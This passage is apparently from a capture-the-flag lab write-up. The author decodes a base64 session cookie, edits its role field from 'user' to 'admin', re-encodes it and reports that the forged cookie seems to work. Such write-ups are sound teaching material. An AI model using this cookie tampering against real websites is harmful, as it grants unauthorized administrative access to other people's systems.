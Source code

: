 ![](/assets/images/Intuition/Pasted%20image%2020240906184039.png)

The cookie it sets is in base64:

![](/assets/images/Intuition/Pasted%20image%2020240906184154.png)

And I can decode it:

```bash
❯ echo -n 'eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogImdhYnJpIiwgInJvbGUiOiAidXNlciJ9fDFkOWQ1NzIxNjkxODg1ODY0YTNhNmU3OTU0NTAxZGNjZmYzZTk0MjE1M2FlNTY5MmJhZDRmM2RmM2U1NzQwMDE=' | base64 -d; echo
{"user_id": 6, "username": "gabri", "role": "user"}|1d9d5721691885864a3a6e7954501dccff3e942153ae5692bad4f3df3e574001
```

It has the user_id, username, role and a random string which I don't know what it is for. This seems vulnerable so I will try changing my role to admin and setting that cookie in the browser:

```bash
❯ echo -n '{"user_id": 6, "username": "gabri", "role": "admin"}|1d9d5721691885864a3a6e7954501dccff3e942153ae5692bad4f3df3e574001' | base64 -w 0;echo
eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogImdhYnJpIiwgInJvbGUiOiAiYWRtaW4ifXwxZDlkNTcyMTY5MTg4NTg2NGEzYTZlNzk1NDUwMWRjY2ZmM2U5NDIxNTNhZTU2OTJiYWQ0ZjNkZjNlNTc0MDAx
```

It seems to work:
